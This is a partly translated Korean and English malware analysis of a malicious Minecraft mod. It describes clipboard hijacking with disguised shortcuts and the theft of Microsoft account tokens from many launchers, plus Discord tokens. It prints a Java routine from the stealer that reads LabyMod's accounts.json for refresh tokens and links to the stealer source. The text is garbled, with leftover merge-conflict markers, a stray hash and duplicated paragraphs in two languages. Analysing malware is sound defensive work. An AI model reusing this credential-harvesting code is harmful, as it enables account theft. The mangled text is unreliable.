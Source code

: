 - 다음 작업을 반복하는 스레드를 시작합니다:
  - `Files.createTempDirectory(...)`를 사용하여 임시 디렉토리를 생성합니다.
  - 시스템 클립보드에서 `FileDescriptor` 항목을 반복합니다. (이로 인해 호스트의 내용에 액세스하게 됨)
  - 원본 파일처럼 보이는 바로 가기를 생성합니다. (SHELL32에서 아이콘을 사용)
  - # 이 바로 가기를 클립보드에 할당하여 원본 파일 참조를 덮어씁니다.
    **MSA Tokens**: Since this mod is targeting Minecraft mods, it's only natural to attempt to steal the MSA token used to login to Minecraft with. Some launchers keep this data in a local file, which this malware will attempt to read from. This affects a variety of launchers such as:
    > > > > > > > 1f61c29bdc3036bf1973fd8f109fb1652961eb2b

따라서 사용자가 파일을 복사하고 다른 곳에 붙여넣을 때 의도한 파일 대신 악성 소프트웨어가 실행되는 것처럼 보이는 바로 가기가 붙여지게 됩니다.

### 데이터 도난

**MSA 토큰**: 이 모드가 Minecraft 모드를 대상으로 하기 때문에 Minecraft에 로그인하는 데 사용되는 MSA 토큰을 도용하는 시도가 자연스럽습니다. 일부 런처는 이 데이터를 로컬 파일에 저장하며, 이 악성코드는 해당 파일에서 읽으려고 시도합니다. 이는 다음과 같은 다양한 런처에 영향을 미칩니다:

- 기본/모장 런처
- 기존의 기본/모장 런처
- PolyMC / Prism
- Technic
- Feather
- LabyMod (< v3.9.59)
- 그리고 [Windows 자격 증명 관리자](https://support.microsoft.com/en-us/windows/accessing-credential-manager-1b5c916a-6a16-889f-8581-fc16e8165ac0)에서 발견된 모든 MSA 토큰

데이터를 검색하는 로직( [`dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java)에서 확인할 수 있음)은 다양한 항목에서 유사하게 보입니다. 이들은 데이터를 유사한 방식으로 저장하기 때문입니다. 예를 들어 LabyMod의 코드는 다음과 같습니다:

```java
private static void retrieveRefreshTokensFromLabyMod(List<RefreshToken> refreshTokens) throws IOException {
	String appdata = System.getenv("APPDATA");
	if (Platform.isWindows() || Objects.isNull(appdata)) {
		Path path = appdata == null ? null : Paths.get(appdata, ".minecraft", "LabyMod", "accounts.json");
		if (Files.isReadable(path)) {
			extractRefreshTokensFromLabyModLauncher(refreshTokens, Json.parse(Files.readString(path)).asObject());
		}
	}
}
```

Feather/PolyMC/Prism에서 토큰을 가져오는 코드는 본질적으로 동일합니다.

이 전략에서 기본 런처로의 변경은 Json이 추가적인 암호화 층을 가지고 있다는 것입니다.

<<<<<<< HEAD
Technic으로의 전략 변경은 Technic이 Java의 내장 객체 직렬화를 사용하여 자격 증명을 저장한다는 점입니다. 이는 `com.google.api.client.auth.oauth2.StoredCredential` 타입을 래핑합니다.
=======
**Discord tokens**: Everyone's seen a token-stealer before. Steals token and extra information such as payment methods, linked phone number, etc. Affects the standard client, canary, ptb, and lightcord clients. Relevant source: [`dev/neko/nekoclient/api/stealer/discord/DiscordAccount.java`](https://github.com/clrxbl/NekoClient/blob/fd76c5f9d40d1e10de11f00a6b4e0cca3d6221a3/dev/neko/nekoclient/api/stealer/discord/DiscordAccount.java)
